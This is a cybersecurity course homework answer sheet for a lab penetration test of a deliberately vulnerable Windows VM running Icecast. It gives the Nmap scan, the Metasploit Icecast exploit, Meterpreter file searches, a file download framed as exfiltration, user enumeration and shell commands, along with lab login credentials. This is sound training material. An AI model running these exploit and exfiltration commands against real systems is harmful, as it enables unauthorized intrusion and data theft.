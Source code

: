 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sS -sV -O 192.168.0.20
 
 ![image](https://user-images.githubusercontent.com/93744925/162007473-6d7d80f2-25e6-47eb-8738-8f74457721cd.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ssearchsploit icecast
 

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast

 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0

 

5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set rhost 192.168.0.20
 
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit or run
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile*.txt

 

 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe*.txt

 

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download 'c:\\Users\IEUser\Documents\Drinks.recipe.txt'
 
 ![image](https://user-images.githubusercontent.com/93744925/162007638-c84b6e68-3bd6-4b23-beb1-e64726854ed8.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
![image](https://user-images.githubusercontent.com/93744925/162007763-97305197-a69b-4f72-bb66-e578b183b364.png)

B. Open a Meterpreter shell. 
 
  > Answer: shell
 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo
 

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
